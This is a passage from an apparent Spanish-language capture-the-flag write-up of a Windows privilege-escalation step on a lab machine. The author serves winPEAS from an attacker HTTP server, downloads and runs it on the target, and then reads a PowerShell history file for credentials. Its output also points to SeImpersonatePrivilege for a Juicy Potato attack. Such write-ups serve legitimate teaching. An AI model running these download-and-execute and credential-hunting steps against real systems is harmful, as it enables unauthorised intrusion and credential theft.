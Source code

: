 ```shell
sudo python3 -m http.server 80
```
```powershell
wget http://<nuestra ip>/winPEASx64.exe -outfile winPEASx64.exe
```

Igual que antes, el servidor http debería recibir la petición:

```shell
10.129.238.95 - - [07/Feb/2023 23:16:44] "GET /winPEASx64.exe HTTP/1.1" 200 -
```

Una vez subido, lo ejecutamos:

```powershell
.\winPEASx64.exe
```

Debido a que la salida es bastante larga solo pondré algunas lineas importantes:

```
[...]

Current Token privileges
# Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
[...]

PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B
[...]
```

Vemos dos vías potenciales de explotación, por un lado el `SeImpersonatePrivilege` que podría ser vulnerable a un [[Juicy potato]]. Y por otro, un archivo de histórico, similar al `.bash_history` que podría contener credenciales.

Así que lo listamos:

```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
